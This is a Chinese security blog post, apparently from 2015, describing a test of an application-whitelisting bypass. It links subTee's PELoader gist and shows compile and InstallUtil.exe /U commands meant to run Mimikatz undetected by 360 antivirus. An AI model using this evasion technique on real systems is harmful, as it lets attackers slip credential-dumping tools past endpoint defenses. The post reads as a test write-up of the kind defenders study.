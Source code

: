 # 利用白名单绕过360实例

0x00 前言
=====

最近`subTee`在其博客中介绍了如何利用白名单绕过防护，但细节存在`bug`，所以本文仅介绍如何修复其`bug`并利用该方法绕过`360`，更多利用方法值得探索

博客链接：

[http://subt0x10.blogspot.hk/](http://subt0x10.blogspot.hk/)（需翻墙）

文章地址：

[http://subt0x10.blogspot.hk/2015/08/application-whitelisting-bypasses-101.html](http://subt0x10.blogspot.hk/2015/08/application-whitelisting-bypasses-101.html)（需翻墙）

0x01 测试目标
=========

下载最新版本`Mimikatz`，实现绕过杀毒软件的查杀。

0x02 测试环境
=====

操作系统：`Win7 x64`

mimikatz版本：`2.0 alpha 20150906 (oe.eo) edition`（目前为止最新）

下载链接：[https://github.com/gentilkiwi/mimikatz/releases/tag/2.0.0-alpha-20150906](https://github.com/gentilkiwi/mimikatz/releases/tag/2.0.0-alpha-20150906)

测试日期：9/14/2015

0x03 实际测试
=====

建议先了解参考链接，链接中提到的相关基础知识不做再次介绍

### 1、下载最新mimikatz，测试查杀情况

毫无疑问，被查杀，如图

![enter image description here](http://drops.javaweb.org/uploads/images/69796d8ae21d3964223258558a4293054caf4c04.jpg)

### 2、利用InstallUtil.exe执行程序

**（1）**下载[https://gist.github.com/subTee/00cdac8990584bd2c2fe](https://gist.github.com/subTee/00cdac8990584bd2c2fe)并保存为`PELoader.cs`

**（2）**参照博客中的示例，执行如下代码：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs


C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe

```
